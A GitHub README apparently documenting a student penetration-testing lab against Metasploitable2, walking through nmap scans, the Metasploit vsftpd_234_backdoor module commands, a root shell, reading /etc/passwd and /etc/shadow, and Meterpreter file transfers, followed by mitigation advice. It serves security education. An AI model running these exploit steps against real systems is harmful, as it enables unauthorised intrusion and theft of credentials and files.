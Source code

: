 # 🔐 System Hacking – Gaining Access to a Vulnerable Machine

## 🧠 Objective
This ethical hacking project simulates a real-world exploitation scenario where a penetration tester targets a vulnerable system (Metasploitable2) using the Metasploit Framework. The objective is to identify susceptible services, exploit them, gain shell access, escalate privileges, and demonstrate basic post-exploitation actions.

---

## 🛠️ Tools Used

- **Kali Linux**
- **Metasploit Framework**
- **Metasploitable2 (vulnerable target machine)**
- `nmap`, `whoami`, `uname`, `ls`, and other Linux commands

---

## 🛰️ Scanning and Enumeration

**1) General nmap scan (to feel around)**
```bash
nmap <target-IP>
```

![Nmap Scan](images/nmap-scan.png)

**2) Detailed nmap scan to see services and versions**
- Discovered open port: `21/tcp` (FTP)
- Service detected: `vsFTPd 2.3.4` — a known vulnerable service with a backdoor.

```bash
nmap -A -sV <target-IP>
```

![Nmap Scan2](images/nmap-version-scan1.png)
![Nmap Scan2](images/nmap-version-scan2.png)
![Nmap Scan2](images/nmap-version-scan3.png)

---

## 💣 Exploitation Process

**1) Launch Metasploit:**

![Launch Exploit](images/metasploit-launch.png)

**2) Exploit Module Used:**

```
exploit/unix/ftp/vsftpd_234_backdoor
```

![Search Exploit](images/search-exploit.png)


**3) Metasploit Commands:**

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-IP>
set RPORT 21
run
```

📍 Successfully spawned a root-level shell:
```
[*] Command shell session 1 opened
```

![Exploit](images/exploit.png)

---

## 🧪 Post-Exploitation

- Verified root access with `whoami` → `root`

![Exploit](images/verify-root-access.png)


- Navigated the file system, listed directories

![Exploit](images/file-navigation.png)

- Display content of privileged directories like `/etc/passwd` and `/etc/shadow`

![Password hashes](images/passwd-hashes.png)
![Shadow hashes](images/shadow-hashes.png)


- More proof that I'm in

![msfadmininfo](images/msfadmin-info.png)
![Exploit](images/post-exploit1.png)
![Exploit](images/post-exploit2.png)


- Transferred files from attacker to victim using the Meterpreter `upload` command

![Exploit](images/upload1.png)


- Downloaded the victim's files back to Kali using the `download` command

![Exploit](images/download1.png)
![Exploit](images/download2.png)

---

## ⚠️ Challenges Faced & Resolutions

| Challenge | Solution |
|----------|----------|
| No internet access in Kali VM | Switched VM network adapter from Host-Only to NAT |
| Metasploit exploit failed to recreate session after closing | Rebooted Metasploitable2 to restart vulnerable FTP service |
| Upload error in normal shell | Upgraded to Meterpreter for advanced file interaction |
| Difficulty identifying active sessions | Used `sessions -i <id>` instead of `sessions` |
| Command confusion between shell and Meterpreter | Ensured proper shell upgrade and command context awareness |

**Meterpreter Upgrade**

![Meterpreter](images/meterpreter-upgrade.png)


---

## ✅ Result/Outcome

Successfully gained root-level access to the target machine, demonstrated file transfer techniques post-exploitation, and documented how to secure systems against such attacks.

---

## 🛡️ Mitigation Recommendations

To prevent exploitation of similar vulnerabilities in a production environment:

- Always keep services and operating systems updated.
- Replace outdated or unsupported software.
- Disable unnecessary services and ports.
- Use firewalls to control inbound/outbound traffic.
- Enforce least privilege and proper user access controls.
- Regularly scan systems for known vulnerabilities.

---

Date created: 24/04/2025

